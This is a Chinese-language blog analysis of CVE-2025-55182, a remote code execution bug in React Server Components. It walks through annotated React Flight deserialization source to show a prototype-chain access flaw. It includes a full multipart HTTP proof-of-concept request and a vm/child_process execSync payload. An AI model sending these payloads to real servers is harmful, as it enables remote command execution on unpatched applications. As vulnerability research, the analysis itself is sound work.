漏洞函数：requireModule 该函数是 React RSC 中 **服务端模块加载的最终执行层**，也是 Server Actions 从「模块加载」到「函数获取」的最后一环

通过 webpack 内置的 `__webpack_require__` 加载编译后的服务端模块，再根据 RSC 约定的规则解析出目标导出项（如 Server Actions 对应的具体函数），是服务端模块从「加载」到「可用」的核心转换步骤。


注释后代码如下：
```js
/**
* 加载服务端模块并解析目标导出项：根据 resolveServerReference 返回的标准化模块元数据，
* 通过 webpack 运行时加载模块，并按规则解析出目标函数/导出项（如 Server Actions 函数）
*
* @param {Array} metadata - 标准化的服务端模块元数据（来自 resolveServerReference），格式：[模块ID, chunk列表, 目标导出名, 异步标识(可选)]
* @returns {any} - 模块的目标导出项（函数/对象/默认导出等），Server Actions 的实际执行函数 
*/
function requireModule(metadata) {
  // 第一步：通过 webpack 运行时加载模块，metadata[0]=模块ID，是 webpack 打包后模块的唯一标识
  var moduleExports = __webpack_require__(metadata[0]);
  // 第二步：处理异步模块（metadata长度为4表示异步模块）
  if (4 === metadata.length &amp;&amp; &#34;function&#34; === typeof moduleExports.then)
    // 异步模块已完成加载（状态为fulfilled）：提取实际的模块导出值
    if (&#34;fulfilled&#34; === moduleExports.status)
      moduleExports = moduleExports.value;
    else throw moduleExports.reason;
  // 第三步：根据 metadata[2]（目标导出名）解析模块的具体导出项（核心分支逻辑）
  return &#34;*&#34; === metadata[2]
    // 分支1：导出名为&#34;*&#34; → 返回整个模块的导出对象（导出全部）
    ? moduleExports
    : &#34;&#34; === metadata[2]
      // 分支2：导出名为空 → 优先取ES模块的default默认导出，非ES模块则返回整个模块
      ? moduleExports.__esModule
        ? moduleExports.default
        : moduleExports
      // 分支3：指定具体导出名 → 取模块的对应命名导出（如 Server Actions 函数名）
      : moduleExports[metadata[2]];  
}
```

漏洞在这行：
```js
: moduleExports[metadata[2]];  // ❌ 没有 hasOwnProperty 检查！访问了原型链！
```

可以看到，moduleExports有 `child_process` 的所有函数，并且`metadata[2]`是我们控制的，也就意味着我们可以调用这个模块下所有函数（而非serverManifest定义的）


### vm#runInNewContext

VM模块在很早的时候就有人用它来执行代码，只不过现在才结合起来组合造成rce。

```js
id: &#34;vm#runInThisContext&#34;,  
bound: [  
&#34;global.process.mainModule.require(&#39;child_process&#39;).execSync(&#39;id&#39;).toString()&#34;
]
```

这个请求会：
1. 加载 `vm` 模块，访问 `vm.runInThisContext` 方法
2. 将攻击者的代码作为参数绑定
3. 执行时运行 `execSync(&#39;id&#39;)`，实现命令执行

`global.process`：全局对象中获取了进程的process对象

`global.process.mainModule`：当前程序的入口模块，通过require 导入 fs、path、net、http、child_process这些模块都可以，采用child_process 进行命令执行权限比较高。

上面我们就获得了一个反序列化出一个服务器函数带有命令的，而后 server.js 下面部分会执行服务器Action函数

```js
    // 5. 执行Action函数并返回结果
    if (typeof actionFn === &#39;function&#39;) {
      // 模拟 “正常业务 action 调用”
      result = actionFn();
    } else {
      result = actionFn;
    }
```

判断actionFn是否是函数，如果是就调用执行这个actionFn函数，正常情况下是会传入正常业务的参数的，但这里已经不重要了，最后执行出来是

```js
vm.runInThisContext(&#34;global.process.mainModule.require(&#39;child_process&#39;).execSync(&#39;id&#39;)&#34;)
```

因此回顾一下整体流程是：
```
客户端构造恶意 multipart/form-data
        ↓
decodeAction 反序列化出恶意服务器函数 (actionFn)
        ↓
服务端认为它是正常业务 action
        ↓
actionFn()
        ↓
函数内部是攻击者构造的 payload
        ↓
vm.runInThisContext / Function / require
        ↓
child_process.execSync(&#34;calc&#34;)
        ↓
    RCE 成功
```

## 漏洞分析2 - Flight协议
这个漏洞分析针对的POC是：
```http
POST / HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Next-Action: x
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Length: 459

------WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Disposition: form-data; name=&#34;0&#34;

{&#34;then&#34;:&#34;$1:__proto__:then&#34;,&#34;status&#34;:&#34;resolved_model&#34;,&#34;reason&#34;:-1,&#34;value&#34;:&#34;{\&#34;then\&#34;:\&#34;$B1337\&#34;}&#34;,&#34;_response&#34;:{&#34;_prefix&#34;:&#34;process.mainModule.require(&#39;child_process&#39;).execSync(&#39;xcalc&#39;);&#34;,&#34;_formData&#34;:{&#34;get&#34;:&#34;$1:constructor:constructor&#34;}}}
------WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Disposition: form-data; name=&#34;1&#34;

&#34;$@0&#34;
------WebKitFormBoundaryx8jO2oVc6SWP3Sad--
```

流程图：



### Flight协议分析

这一段分析主要是参考腾讯keenlab的文章 [【漏洞分析】CVE-2025-55182 React2shell远程代码执行解析](https://keenlab.tencent.com/zh/2025/12/08/2025-CVE-2025-55182/)

推荐去看原文，我这里略作整理

#### 入口函数：decodeReplyFromBusboy

`decodeReplyFromBusboy` 是服务端解析客户端 FormData 的入口函数，位于 `ReactFlightDOMServerNode.js`：

```javascript
// packages/react-server-dom-webpack/src/server/ReactFlightDOMServerNode.js
function decodeReplyFromBusboy&lt;T&gt;(
  ...
): Thenable&lt;T&gt; {
  ...
  busboyStream.on(&#39;field&#39;, (name, value) =&gt; {
    if (pendingFiles &gt; 0) {
      queuedFields.push(name, value);
    } else {
      resolveField(response, name, value);  // 处理表单字段
    }
  });
```

**调用链：** `resolveField` → `resolveModelChunk` → `initializeModelChunk`

```js
// packages/react-server-dom-webpack/src/server/ReactFlightDOMServerNode.js
/**
 * 服务端解析 Busboy 流式表单数据的核心函数，核心作用：
 * 1. 解析 multipart/form-data 格式的 Busboy 流，区分处理普通字段和文件上传；
 * 2. 保证「文件优先、字段排队」的解析顺序，避免数据乱序；
 * 3. 校验文件编码（拒绝 base64），逐块处理文件二进制数据；
 * 4. 监听流生命周期事件，完成响应关闭/错误上报，最终返回 Flight 协议根响应；
 * 5. 是 Flight 协议处理 Server Actions 表单提交的核心入口。
 * 
 * @template T - Flight 协议响应的根数据类型（泛型适配不同响应场景）
 * @param {Busboy} busboyStream - Busboy 解析流，处理 multipart/form-data 格式核心流
 * @param {ServerManifest} webpackMap - React 服务端的 webpack 构建清单
 * @param {Object=} options - 可选配置项，包含临时引用集合（temporaryReferences）
 * @param {TemporaryReferenceSet=} options.temporaryReferences - Flight 协议的临时引用缓存，解决循环引用问题
 * @returns {Thenable&lt;T&gt;} - Flight 协议解析完成的根响应（Promise 类型，适配异步解析）
 */
function decodeReplyFromBusboy&lt;T&gt;(
  busboyStream: Busboy,
  webpackMap: ServerManifest,
  options?: {temporaryReferences?: TemporaryReferenceSet},
): Thenable&lt;T&gt; {
  // ========== 步骤1：初始化 Flight 协议响应对象 ==========
  const response = createResponse(
    webpackMap,
    &#39;&#39;,
    options ? options.temporaryReferences : undefined,
  );
  let pendingFiles = 0;
  const queuedFields: Array&lt;string&gt; = [];
  // ========== 步骤2：监听普通表单字段事件（field） ==========
  busboyStream.on(&#39;field&#39;, (name, value) =&gt; {
    if (pendingFiles &gt; 0) {
      // 文件未处理完成时，将字段存入队列，避免字段与文件解析乱序
      queuedFields.push(name, value);
    } else {
      // 无文件处理时，直接处理表单字段，解析字段并关联到响应对象
      resolveField(response, name, value);
    }
  });

  // ========== 步骤3：监听文件上传事件（file） ==========
  busboyStream.on(&#39;file&#39;, (name, value, {filename, encoding, mimeType}) =&gt; {
    …………
  });
  // ========== 步骤4：监听Busboy流完成事件 ==========
  busboyStream.on(&#39;finish&#39;, () =&gt; {
    close(response);
  });
  // ========== 步骤5：监听Busboy流错误事件 ==========
  busboyStream.on(&#39;error&#39;, err =&gt; {
    …………
  });
  // ========== 步骤6：返回Flight协议的根响应数据 ==========
  return getRoot(response);
}
```

详细说明：

该函数是 **React RSC/Flight 协议体系下，服务端解析 Busboy 流式表单数据（`multipart/form-data`）的核心函数**，是 Flight 协议处理客户端表单提交（如 Server Actions）的关键入口。核心功能可拆解为：
1. **初始化响应对象**：创建 Flight 协议的响应容器，关联 webpack 映射和临时引用配置；
2. **分类型解析表单数据**：区分处理普通表单字段和文件上传，保证文件未处理完成时普通字段先排队；
    - 普通字段（`field`）：文件未处理完成时暂存队列，文件处理完毕后批量解析，保证字段与文件的解析顺序；
    - 文件字段（`file`）：校验编码（拒绝 base64），逐块接收文件二进制数据并封装为 Blob 对象，添加到响应的 FormData 中，完成后清理队列并解析暂存字段；
3. **生命周期与异常处理**：监听 Busboy 流的完成 / 错误事件，完成响应关闭或全局错误上报；
4. **返回根响应数据**：最终返回解析完成的 Flight 协议根响应，供后续序列化传输；

整体实现了「文件优先、字段排队」的表单解析规则，保证 Flight 协议下表单数据（含文件）的完整、有序解析，支撑 Server Actions 的表单提交链路。


#### 字段解析：resolveField

该函数是 **RSC Flight 协议体系下处理表单字段的核心工具函数**，核心作用为：
1. 先将表单字段（键值对）添加到响应对象的 FormData 中，保证表单数据的完整存储；
2. 校验字段名是否以响应对象的预设前缀开头（通常是 RSC/Flight 协议的特殊标识前缀）；
3. 若匹配前缀，提取字段名中的「块 ID」，从响应的块缓存中找到对应模型块，调用 `resolveModelChunk` 解析该块的内容（完成模型块与字段值的关联）。
   

整体是 Flight 协议中「表单字段 → 模型块」映射解析的关键步骤，支撑服务端对特殊标记字段的精准处理。
```javascript
// packages/react-server/src/ReactFlightReplyServer.js
/**
* 解析并关联表单字段到响应对象及对应模型块，核心作用：
* 1. 将表单字段存入响应的FormData，保证基础数据存储；
* 2. 识别带RSC/Flight协议前缀的特殊字段，提取模型块ID并解析对应模型块；
* 3. 是服务端处理表单提交（如Server Actions）时，关联字段与模型块的核心逻辑。
*
* @param {Response} response - Flight协议的响应对象，包含FormData、模型块缓存、前缀标识等核心属性
* @param {string} key - 表单字段名（普通字段/带RSC前缀的特殊字段）
* @param {string} value - 表单字段值
* @returns {void} - 无返回值，直接修改response对象的内部状态
*/
export function resolveField(
  response: Response,
  key: string,
  value: string,
): void {
  // 1. 基础操作：将当前表单字段（键值对）添加到响应对象的FormData中
  response._formData.append(key, value);
  // 2. 获取响应对象中预设的Flight协议前缀（如&#34;$MODEL_CHUNK_&#34;等特殊标识）
  const prefix = response._prefix;
  // 3. 校验：当前字段是否为Flight协议标记的「模型块关联字段」
  if (key.startsWith(prefix)) {
    // 3.1 从响应对象中获取模型块缓存（Map结构，key为块ID，value为模型块数据）
    const chunks = response._chunks;
    // 3.2 提取字段名中前缀后的部分，转为数字类型的模型块ID
    const id = &#43;key.slice(prefix.length);
    // 3.3 从缓存中获取该ID对应的模型块
    const chunk = chunks.get(id);
    // 4. 若模型块存在，调用resolveModelChunk解析该块（关联字段值与模型块）
    if (chunk) {
      // 核心：将字段值注入对应模型块，完成模型块的解析/初始化
      resolveModelChunk(chunk, value, id);  
    }
  }
}
```


#### 模型块解析 resolveModelChunk

该函数是 **RSC Flight 协议体系下解析模型块（Model Chunk）的核心泛型函数**，是 Flight 协议反序列化中模型块状态管理与数据解析的关键环节。核心功能可拆解为：

1. **非挂起状态处理**：若模型块已脱离 `PENDING` 状态，判定为流式数据块，根据特殊标记（`C` 开头）执行「关闭流控制器」或「入队模型数据」操作；
2. **挂起状态处理**：若模型块处于 `PENDING` 状态，标记为「已解析模型」状态，存储解析值与 ID，触发模型块初始化；
3. 监听器唤醒：初始化后检查模型块最终状态，唤醒关联的成功 / 失败监听器，完成异步回调的执行；

整体实现了模型块「挂起→解析→回调」的完整生命周期管理，适配 Flight 协议的流式数据解析与异步模型还原逻辑。

```js
// packages/react-server/src/ReactFlightReplyServer.js
/**
 * 解析模型块（Model Chunk）的核心泛型函数,核心作用：
 * 1. 区分模型块状态执行差异化逻辑：
 *    - 非PENDING：按流式数据块处理，控制流的关闭/数据入队；
 *    - PENDING：标记为已解析状态，初始化模型并唤醒监听器；
 * 2. 适配 Flight 协议的流式数据解析与异步模型还原，管理模型块完整生命周期；
 * 3. 是 Flight 协议反序列化中模型块状态同步、回调执行的关键环节。
 * 
 * @template T - 模型块存储的数据类型（泛型适配不同模型数据）
 * @param {SomeChunk&lt;T&gt;} chunk - 待处理的模型块对象，包含状态、值、原因等核心属性
 * @param {string} value - 解析后的模型字符串数据（Flight 序列化数据）
 * @param {number} id - 模型块的唯一标识ID（关联 Flight 协议引用）
 * @returns {void} - 无返回值，直接修改模型块的内部状态与关联控制器/监听器
 */
function resolveModelChunk&lt;T&gt;(
  chunk: SomeChunk&lt;T&gt;,
  value: string,
  id: number,
): void {
  // ========== 分支1：模型块非PENDING状态（已解析/流式数据块） ==========
  if (chunk.status !== PENDING) {
		…………
  }

  // ========== 分支2：模型块处于PENDING状态（待解析） ==========
  // 提取模型块的成功/失败监听器队列（异步回调）
  const resolveListeners = chunk.value;
  const rejectListeners = chunk.reason;

  // 类型断言：将PENDING状态的模型块转为已解析模型块
  const resolvedChunk: ResolvedModelChunk&lt;T&gt; = (chunk: any);
  // 标记模型块状态为「已解析模型」（RESOLVED_MODEL）
  resolvedChunk.status = RESOLVED_MODEL;
  // 存储解析后的模型数据
  resolvedChunk.value = value;
  // 存储模型块唯一ID
  resolvedChunk.reason = id;

  // 若存在成功监听器，执行模型初始化并唤醒监听器
  if (resolveListeners !== null) {
    // 注释：若已绑定监听器时提前读取数据，可能存在监听器已失效/非最高优先级的问题（已知设计取舍）
    // 核心操作：初始化模型块（将序列化数据转为可运行的组件模型）
    initializeModelChunk(resolvedChunk);

    // 初始化后模型块状态可能变更，检查并唤醒监听器，传递当前模型块、成功/失败监听器，完成异步回调执行
    wakeChunkIfInitialized(chunk, resolveListeners, rejectListeners);
  }
}
```


**状态分支的核心设计**：

- 非 `PENDING` 状态判定为「流式数据块」，通过 `controller` 处理流的关闭 / 数据入队，适配 Flight 协议的流式渲染特性；
- `PENDING` 状态是模型块的初始状态，完成「标记解析状态→存储数据→初始化→唤醒监听器」的闭环，是同步模型数据的核心链路。

**流式数据的特殊标记**：

- `value[0] === &#39;C&#39;` 是 Flight 协议约定的「流关闭」标记，对应 `controller.close()`，用于终止流式数据的解析；
- 非 `C` 开头的数据通过 `enqueueModel` 入队，保证流式数据的增量解析。

**泛型与类型断言的作用**：

- 泛型 `T` 适配不同类型的模型数据（如组件、表单、二进制数据），提升函数复用性；
- 类型断言（`chunk: any`）是 Flight 协议内部简化类型处理的设计，避免复杂的类型分支，代价是牺牲部分类型安全性。

**监听器唤醒的时机**：

- `initializeModelChunk` 后调用 `wakeChunkIfInitialized`，因为初始化可能改变模型块状态（如 `fulfilled`/`rejected`），需根据最终状态唤醒对应监听器；
- 注释中提到的「监听器可能失效」是已知设计取舍，优先保证解析效率而非极致的监听器校验。


#### 核心解码逻辑：initializeModelChunk

该函数是 **RSC Flight 协议体系下初始化模型块（Model Chunk）的核心泛型函数**，是 Flight 协议反序列化中「原始序列化数据 → 可运行组件模型」的关键转换环节。核心功能可拆解为：
1. **全局状态保护**：暂存并恢复全局的「初始化中模型块」状态，避免并发初始化导致的冲突；
2. **初始状态标记**：将模型块先标记为 `CYCLIC`（循环引用）状态，防止解析过程中重复初始化；
3. **数据解析与还原**：解析序列化的 JSON 字符串，通过 `reviveModel` 递归还原为带类型的组件模型；
4. **状态分支处理**：
    - 存在未解析依赖：标记为 `BLOCKED`（阻塞）状态，等待依赖解析完成；
    - 无未解析依赖：标记为 `INITIALIZED`（已初始化）状态，唤醒成功监听器；
5. **异常处理**：捕获解析 / 还原过程中的异常，标记为 `ERRORED`（错误）状态；

整体实现了模型块从「已解析标记」到「循环→阻塞 / 初始化 / 错误」的状态流转，是 Flight 协议处理复杂组件模型（含循环引用、依赖阻塞）的核心逻辑。

```js
// packages/react-server/src/ReactFlightReplyServer.js  
/**
 * 初始化模型块（Model Chunk）的核心泛型函数，核心作用：
 * 1. 安全初始化模型块（暂存/恢复全局状态，避免并发冲突）；
 * 2. 先标记为CYCLIC状态防止循环引用导致的重复初始化；
 * 3. 解析JSON序列化数据，通过reviveModel还原为带类型的组件模型；
 * 4. 根据依赖状态标记为BLOCKED（阻塞）/INITIALIZED（已初始化），异常时标记为ERRORED；
 * 5. 是 Flight 协议反序列化中「原始数据 → 组件模型」的核心转换环节。
 * 
 * @template T - 模型块存储的数据类型（泛型适配组件/表单/流式数据等不同场景）
 * @param {ResolvedModelChunk&lt;T&gt;} chunk - 已解析标记的模型块（含序列化JSON数据、响应上下文等）
 * @returns {void} - 无返回值，直接修改模型块的状态、值、原因等核心属性
 */
function initializeModelChunk&lt;T&gt;(chunk: ResolvedModelChunk&lt;T&gt;): void {
  // ========== 步骤1：暂存全局初始化状态，避免并发冲突 ==========
  const prevChunk = initializingChunk;
  const prevBlocked = initializingChunkBlockedModel;
  initializingChunk = chunk;
  initializingChunkBlockedModel = null;

  // ========== 步骤2：处理根引用标识，提取序列化模型数据 ==========
  const rootReference =
    chunk.reason === -1 ? undefined : chunk.reason.toString(16);
  // 提取模型块中存储的原始JSON序列化数据
  const resolvedModel = chunk.value;

  // ========== 步骤3：初始状态标记为CYCLIC，防止循环引用重复初始化 ==========
  const cyclicChunk: CyclicChunk&lt;T&gt; = (chunk: any);
  cyclicChunk.status = CYCLIC;    
  cyclicChunk.value = null;       
  cyclicChunk.reason = null;      

  try {
    // ========== 步骤4：解析JSON并还原为带类型的组件模型 ==========
    // 1. JSON 解析，将序列化的JSON字符串解析为原始JS对象
    const rawModel = JSON.parse(resolvedModel);
    // 2. Flight反序列化核心：通过reviveModel递归还原模型，将JSON转换为RSC组件模型
    const value: T = reviveModel(
      chunk._response,
      {&#39;&#39;: rawModel},
      &#39;&#39;,
      rawModel,
      rootReference
    );

    // ========== 步骤5：根据依赖状态标记模型块最终状态 ==========
    if (
      initializingChunkBlockedModel !== null &amp;&amp;
      initializingChunkBlockedModel.deps &gt; 0
    ) {
      // 分支1：存在未解析的模块依赖 → 标记为BLOCKED（阻塞）状态
    } else {
      // 分支2：无未解析依赖 → 标记为INITIALIZED（已初始化）状态
    }
  } catch (error) {
    // ========== 步骤6：捕获解析/还原异常，标记为ERRORED（错误）状态 ==========
  } finally {
    // ========== 步骤7：恢复全局初始化状态，保证并发安全 ==========
    initializingChunk = prevChunk;
    initializingChunkBlockedModel = prevBlocked;
  }
}
```

**关键步骤：**

- 1、 对 `chunk.value` 进行 JSON 解析，得到如 `{then: &#34;$1:...&#34;, ...}` 的对象
- 2、`reviveModel` 处理 JSON，将字符串引用还原为实际对象


**Flight 协议反序列化核心（`reviveModel`）**：

- `reviveModel` 是 Flight 协议的核心反序列化函数，作用是将「原始 JSON 对象」转换为「RSC 可识别的组件模型」；
- 其参数包含 RSC 响应对象、解析路径、根引用标识，可处理组件引用、模块依赖、循环引用等复杂场景，是「数据 → 组件」的关键转换。

#### 还原对象：reviveModel

该函数是  RSC Flight 协议体系下模型数据反序列化的核心递归函数，是 Flight 协议将序列化的 JSON 数据（字符串 / 对象 / 数组）转换为可运行 RSC 组件模型的核心环节。核心功能可拆解为：

1. **类型分支处理**：根据值的类型（字符串 / 对象 / 数组 / 基础类型）执行差异化还原逻辑；
2. **字符串解析**：调用 `parseModelString` 解析 Flight 协议约定的特殊标记字符串（如组件引用、模块路径、特殊值等），还原为对应 JS 实体；
3. **对象 / 数组递归还原**：遍历对象 / 数组的每一个属性 / 元素，递归完成深层数据还原，同时维护「临时引用标识」；
4. **临时引用注册**：为对象绑定 Flight 协议的引用标识，解决循环引用、跨模型引用问题；
5. **无效属性清理**：还原结果为 `undefined` 的属性会被删除，保证模型数据的合法性；

整体是 Flight 协议反序列化中「扁平化 JSON 数据 → 结构化组件模型」的核心递归逻辑，支撑 RSC 组件模型的完整还原。

```js
/**
 * Flight 协议：模型数据反序列化核心递归函数，核心作用：
 * 1. 递归遍历序列化的JSON数据，按Flight协议规则还原为可运行的RSC组件模型；
 * 2. 解析特殊标记字符串（$开头）为对应JS实体（组件引用、Date、TypedArray等）；
 * 3. 注册临时引用标识，解决循环引用/跨模型引用问题；
 * 4. 清理还原失败的属性，保证模型数据合法性；
 * 5. 是 Flight 协议反序列化中「JSON数据 → 组件模型」的核心递归逻辑。
 * 
 * @param {Response} response - RSC/Flight协议响应对象，含临时引用缓存等核心属性
 * @param {any} parentObj - 当前值的父对象/数组
 * @param {string} parentKey - 当前值在父对象/数组中的键/索引
 * @param {JSONValue} value - 待还原的原始JSON值（字符串/对象/数组/数字/布尔/null）
 * @param {void | string} reference - 当前值的Flight协议引用标识
 * @returns {any} - 还原后的模型数据（组件模型/结构化数据/基础类型）
 */
function reviveModel(
  response: Response,
  parentObj: any,
  parentKey: string,
  value: JSONValue,
  reference: void | string,
): any {
  // ========== 分支1：字符串类型 → 解析Flight协议特殊标记字符串 ==========
  if (typeof value === &#39;string&#39;) {
    // 注释：不能用.bind绑定this，因为parseModelString需要当前上下文的this值
    // 核心：调用parseModelString解析$开头的特殊字符串（如$F表示服务端组件引用）
    return parseModelString(response, parentObj, parentKey, value, reference);
  }

  // ========== 分支2：非空对象/数组类型 → 递归还原 &#43; 引用注册 ==========
  if (typeof value === &#39;object&#39; &amp;&amp; value !== null) {
    // 注册临时引用：若存在引用标识且响应有临时引用缓存，绑定对象与引用（解决循环引用）
    if (
      reference !== undefined &amp;&amp;
      response._temporaryReferences !== undefined
    ) {
      // 存储对象的引用标识，防止后续返回时重复解析
      registerTemporaryReference(
        response._temporaryReferences,
        value,
        reference
      );
    }

    // 子分支1：数组类型 → 递归还原每个元素
    if (Array.isArray(value)) {
      ……
    }
    // 子分支2：普通对象类型 → 递归还原每个自有属性
    else {
      for (const key in value) {   // [3] 遍历对象属性  
        // 仅处理对象自有属性（排除原型链属性，避免污染）
        if (hasOwnProperty.call(value, key)) {
          // 生成子属性的引用标识：父引用 &#43; 属性名（跳过含&#34;:&#34;的特殊键）
          const childRef =
            reference !== undefined &amp;&amp; key.indexOf(&#39;:&#39;) === -1
              ? reference &#43; &#39;:&#39; &#43; key
              : undefined;
          // 递归还原当前属性值
          const newValue = reviveModel(
            response,
            value,
            key,
            value[key],
            childRef
          );

          // 处理还原结果：有效则赋值，无效则删除属性
          if (newValue !== undefined) {
            value[key] = newValue;  // 用解析后的对象替换原字符串  
          } else {
            // 还原失败（返回undefined），删除该属性保证模型数据合法性
            delete value[key];
          }
        }
      }
    }
  }

  // ========== 分支3：基础类型（数字/布尔/null）→ 直接返回原值 ==========
  return value;
}
```


1. **递归还原的设计核心**：函数采用深度递归遍历对象 / 数组，保证嵌套层级的模型数据（如嵌套组件、多维数组）都能被完整还原 —— 这是 Flight 协议处理复杂组件模型的基础。

2. **临时引用的核心作用**：`registerTemporaryReference` 将对象与 `reference` 绑定，存储在 `response._temporaryReferences`（Map 结构）中：

   - 解决循环引用：A 引用 B、B 又引用 A 时，能通过引用标识找到已还原的对象，避免死循环；
   - 跨模型引用：不同模型块之间的对象引用，能通过统一的引用标识关联。

3. **引用标识的生成规则**：引用标识格式为 `父引用:子键`（如 `123:0:title`），其中：

   - `123`：根模型块 ID；

   - `0`：数组索引；

   - `title`：对象属性名；

     跳过含 `:` 的键，避免与引用标识格式冲突。

4. **无效属性清理的意义**：还原结果为 `undefined` 时删除对应属性，避免：

   - 原型链污染（如还原 `__proto__` 属性失败时直接删除）；
   - 无效数据干扰组件渲染（如未解析的模块引用）。

5. **Flow 注释的背景**：`$FlowFixMe[cannot-write]` 是 Facebook Flow 类型检查的兼容注释，原代码中用于忽略「修改只读对象」的类型警告 —— 因为 Flight 协议内部直接修改序列化数据以提升解析效率，而非创建新对象

```javascript
// packages/react-server/src/ReactFlightReplyServer.js  
function reviveModel(...): any {  
  ...  
  if (typeof value === &#39;object&#39; &amp;&amp; value !== null) {  
    ...  
    for (const key in value) {    // [3] 遍历对象属性  
      if (hasOwnProperty.call(value, key)) {  
        const newValue = reviveModel(  
          response, value, key, value[key], childRef,  
        );  
        if (newValue !== undefined) {  
          value[key] = newValue;  // 用解析后的对象替换原字符串  
        }  
      }  
    }  
  }  
  return value;  
}
```

POC 中 `chunk[0].value` 经 JSON 解析后为 object 类型，进入 **\[3\]** 处的循环，遍历所有 key-value 并递归调用 `reviveModel`。这是反序列化的核心过程——将数据还原为实际对象。

当遇到第一个 key `then`，其值为 `$1:__proto__:then`（字符串类型），会走不同分支：

```javascript
function reviveModel(...): any {  
  if (typeof value === &#39;string&#39;) {  
    return parseModelString(response, parentObj, parentKey, value, reference);  
  }  
  ...  
}
```


#### 字符串解析：parseModelString

`parseModelString` 包含一个大型 switch 表，根据前缀字符路由到不同处理逻辑：

```javascript
// packages/react-server/src/ReactFlightReplyServer.js  
/**
 * Flight 协议：解析模型特殊标记字符串的核心函数，核心作用：
 * 1. 解析 Flight 协议约定的以 $ 开头的特殊标记字符串，转换为对应 JS 实体/协议对象；
 * 2. 按二级标记（$ 后第二个字符）分支处理，覆盖基础类型、集合类型、二进制类型、协议核心类型；
 * 3. 实现服务端组件引用加载、临时引用创建、表单数据提取、流式数据解析等 Flight 协议专属逻辑；
 * 4. 普通字符串直接返回，是 Flight 协议反序列化中「字符串 → 实体」的关键转换层。
 * 
 * @param {Response} response - RSC/Flight 协议响应对象，包含_formData（表单数据）、_prefix（协议前缀）、临时引用缓存等核心属性
 * @param {Object} obj - 当前字符串所属的父对象（用于关联属性归属）
 * @param {string} key - 当前字符串在父对象中的属性键（如对象属性名）
 * @param {string} value - 待解析的 Flight 协议特殊标记字符串（以 $ 开头）
 * @param {void | string} reference - 当前字符串对应的 Flight 协议引用标识
 * @returns {any} - 解析后的 JS 实体/协议对象（如 FormData、Date、TypedArray、组件引用等），普通字符串直接返回原值
 */
function parseModelString(...): any { 
  // ========== 核心分支：仅处理以 $ 开头的 Flight 协议特殊标记字符串 ==========
  if (value[0] === &#39;$&#39;) {  
    // ========== 第一组二级标记解析：基础类型/协议核心类型 ==========
    switch (value[1]) {  
      // 标记 $$：转义 $ 字符 → 移除第一个 $ 后返回
      case &#39;$&#39;: {  
        return value.slice(1);  
      }  
      // 标记 $@：Promise 模型块 → 解析 16 进制 ID 并获取对应模型块
      case &#39;@&#39;: {  
        // Promise 引用  
        const id = parseInt(value.slice(2), 16);  // 截取 $@ 后内容，转为 16 进制 ID
        const chunk = getChunk(response, id);     // [4] 从响应中获取该 ID 对应的模型块
        return chunk;  
      }  
      ...  
    }  
    // ========== 兜底处理：未匹配二级标记的特殊字符串 ==========
    // 默认：chunk 引用，移除开头的 $
    const ref = value.slice(1);  
    // 解析为通用模型（Outlined Model）
    return getOutlinedModel(response, ref, obj, key, createModel);  // [5]  
  }  
}
```

该函数是 **RSC Flight 协议体系下解析模型特殊标记字符串的核心函数**，是 Flight 协议反序列化中「`$` 开头的协议标记字符串 → 对应 JS 实体 / 组件模型」的关键转换层。核心功能可拆解为：

1. **特殊前缀识别**：仅处理以 `$` 开头的 Flight 协议标记字符串，普通字符串直接返回；
2. 二级标记分支解析
3. 按 `$` 后的第二个字符（如 `@/F/T/D` 等），将标记字符串解析为对应类型的 JS 实体：
   基础类型：Infinity、-0、-Infinity、NaN、undefined、Date、BigInt；
   集合类型：Map、Set、FormData、Iterator；
   二进制 / 数组类型：各类 TypedArray（Int8Array/Uint8Array 等）、ArrayBuffer、DataView、Blob；
   协议核心类型：Promise 模型块、服务端组件引用、临时引用、可读流（ReadableStream）、异步可迭代对象；
4. 兜底处理：未匹配二级标记的特殊字符串，解析为通用模型引用；

整体覆盖了 Flight 协议约定的所有特殊字符串类型，是「序列化标记字符串 → 可运行 JS 实体」的核心解析器，支撑 RSC 组件模型的完整还原。


#### 引用解析：getOutlinedModel

```javascript
// packages/react-server/src/ReactFlightReplyServer.js  
function getOutlinedModel&lt;T&gt;(...): T {  
  const path = reference.split(&#39;:&#39;);  // 按 : 分割路径  
  const id = parseInt(path[0], 16);  
  const chunk = getChunk(response, id);  
  ...  
  switch (chunk.status) {  
    ...  
    case PENDING:  
    case BLOCKED:  
    case CYCLIC:  
      const parentChunk = initializingChunk;  
      chunk.then(  // [6] 注册回调  
        createModelResolver(...),  
        createModelReject(parentChunk),  
      );  
      return (null: any);  
    default:  
      throw chunk.reason;  
  }  
}
```


## 参考文献
- [【安全通告】React Server Components RCE（CVE-2025-55182）](https://cloud.tencent.com/announce/detail/2179)
- [React 框架 CVE-2025-55182 RCE CVSS 10.0分析](https://xz.aliyun.com/news/90754)
- [React 服务器组件原型链漏洞（CVE-2025-55182）](https://xz.aliyun.com/news/90753)
- [【漏洞分析】CVE-2025-55182 React2shell远程代码执行解析](https://keenlab.tencent.com/zh/2025/12/08/2025-CVE-2025-55182/)
- [POC for CVE-2025-55182 that works on Next.js 16.0.6](https://gist.github.com/maple3142/48bc9393f45e068cf8c90ab865c0f5f3)
- [CVE-2025-55182 Next.js Server Actions RCE Vulnerability Analysis](https://mp.weixin.qq.com/s/4RY6qo7Oww0Iny9GoxY5dw)
- [源码层面详解Node.js反序列化漏洞原理与利用](https://xz.aliyun.com/news/90764)

## 文件属性

创建时间：2025-12-05   17:41

修订记录：
- 2025-12-05 ，此次修订内容 | 新建
- 2026-01-07，V0.5 版本 | 修改
- 2026-01-16，V1.0 版本 | 新增 Flight协议分析

备注：
- 

---

> 作者: Xavier  
> URL: http://localhost:1313/posts/cve-2025-55182_react2shell/  

